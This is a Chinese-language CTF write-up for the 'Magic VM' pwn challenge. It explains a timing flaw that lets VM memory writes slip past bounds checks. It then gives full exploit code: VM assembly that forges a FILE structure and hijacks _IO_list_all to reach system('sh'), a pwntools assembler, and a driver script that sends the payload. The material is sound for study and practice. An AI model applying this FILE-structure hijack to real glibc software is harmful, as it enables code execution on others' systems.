

# Magic VM 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.7|

## 解题思路

没去符号表的vm题，费了好大劲在黑灯开始时想通了怎么利用，然后来不及了

> 我在[这里](./MagicVMPsrc)会放逆好的伪代码，看起来清晰多了

这道题的漏洞在于绕过时序，从代码读入到实际写入，实际上需要3个周期，
而所有合法性检查是在`vm_id::run`中做的，那意味着，我们只要使数据变化慢于检测，
即可绕过，具体原理如图所示



理解完了这个原理之后，思路就很清楚了：先获取libc和mmap的地址，然后在data段伪造FILE，
设置好apple的触发条件，最后把伪造的FILE挂到`_IO_list_all`下，等程序自然退出就可以拿shell

为了自动化生成这长长的脚本，我写了对应的汇编和汇编器附在文后

## Extra Bonus

1. 我们拿到的mmap段紧邻另一段，而在里面有libc，有自身所在的地址，这不是巧合，它是TLS段
2. `cout <<`也有"hook"可用，在这个libstdc++中，在执行输出时，会解析函数，即导入函数到got表中，
那么由于它没有开Full RELRO，所以我们还可以写got表来跳转任意代码，但前提是我们能拿到libstdc++的地址
3. 由于延迟赋值的特性（见上图），所以在`mov reg, imm`和`mov ds:[reg], reg`这样的语句中间必须有一个等待周期，
可以`nop`，或者先处理其他寄存器


## EXPLOIT

```asm
; exp.asm
inline:
    mov r0, 0x46e8
    mov r1, 0x4740
    mov r0, ds:[r0]             ; main_arena
    mov r1, ds:[r1]             ; my_vm.data + 0x0x4740
    sub r0, 0x21ac80            ; libc_base
    sub r1, 0x4740              ; my_vm.data

    mov r2, 0x0
    mov r3, 0x28
    mov ds:[r2], 0x3b68732020   ; data->_flags = '  sh;'
    mov ds:[r3], 0x1            ; data->_IO_write_ptr = 1

    mov r2, 0xa0
    mov r3, 0xe0
    mov ds:[r2], r1             ; data->_wide_data = data
    mov ds:[r3], r1             ; data->_wide_vtable = data

    mov r2, r0
    mov r3, 0x68
    add r2, 0x50d70
    nop
    mov ds:[r3], r2             ; data->doallocate = system

    mov r2, r0
    mov r3, 0xd8
    add r2, 0x2170c0
    nop
    mov ds:[r3], r2             ; data->_vtable = _IO_wfile_jumps

    add r0, 0x21b680            ; r0 = _IO_list_all
    nop
    sub r0, r1
    mov r2, 0x0
    mov r2, r0
    nop
    mov ds:[r2], r1             ; *_IO_list_all = data
    nop
    nop
```

```python
# assembler.py
from pwn import *
import re
def assemble(lines:list[str]) -> bytes:
    payload = b''
    pre = ' *'
    post = r'(?: *;.*)?'
    def wrap_match(restr:str, line:str) -> re.Match:
        return re.match(f'{pre}{restr}{post}', line)

    for i, line in enumerate(lines):
        if match := wrap_match(r'mov r(\d), (0x[0-9a-f]+)', line):
            # mov reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x05\x06' + p8(reg) + p64(imm)
        elif match := wrap_match(r'mov r(\d), ds:\[r(\d)\]', line):
            # mov reg, ds
            reg = int(match.group(1))
            ds = int(match.group(2))
            payload += b'\x05\x0e' + p8(reg) + p8(ds)
        elif match := wrap_match(r'mov ds:\[r(\d)\], (0x[0-9a-f]+)', line):
            # mov ds, imm
            ds = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x05\x07' + p8(ds) + p64(imm)
        elif match := wrap_match(r'mov ds:\[r(\d)\], r(\d)', line):
            # mov ds, reg
            ds = int(match.group(1))
            reg = int(match.group(2))
            payload += b'\x05\x0b' + p8(ds) + p8(reg)
        elif match := wrap_match(r'mov r(\d), r(\d)', line):
            # mov reg, reg
            reg1 = int(match.group(1))
            reg2 = int(match.group(2))
            payload += b'\x05\x0a' + p8(reg1) + p8(reg2)
        elif match := wrap_match(r'sub r(\d), r(\d)', line):
            # sub reg, reg
            reg1 = int(match.group(1))
            reg2 = int(match.group(2))
            payload += b'\x02\x0a' + p8(reg1) + p8(reg2)
        elif match := wrap_match(r'sub r(\d), (0x[0-9a-f]+)', line):
            # sub reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x02\x06' + p8(reg) + p64(imm)
        elif match := wrap_match(r'add r(\d), (0x[0-9a-f]+)', line):
            # sub reg, imm
            reg = int(match.group(1))
            imm = int(match.group(2), 16)
            payload += b'\x01\x06' + p8(reg) + p64(imm)
        elif match := wrap_match('nop', line):
            # nop
            payload += b'\x0b'
        else:
            debug(f'\'{line.strip()}\' @L#{i + 1} can not match')
    debug(f'generating payload {payload}')
    return payload

if __name__ == '__main__':
    import sys
    if len(sys.argv) < 2:
        print('Require file name!')
        exit(0)
    filename = sys.argv[1]
    with open(filename, 'r') as file:
        bytecode = assemble(file.readlines())
        print(bytecode)
```

```python
# vm.py
from pwn import *
from assembler import assemble
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './vm'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1c84)\nc')
    else:
        sh = remote('', 9999)
    elf = ELF(EXE)

    with open('exp.asm', 'r') as file:
        bytecode = assemble(file.readlines())
    sh.send(bytecode)

    sh.clean()
    sh.interactive()
```
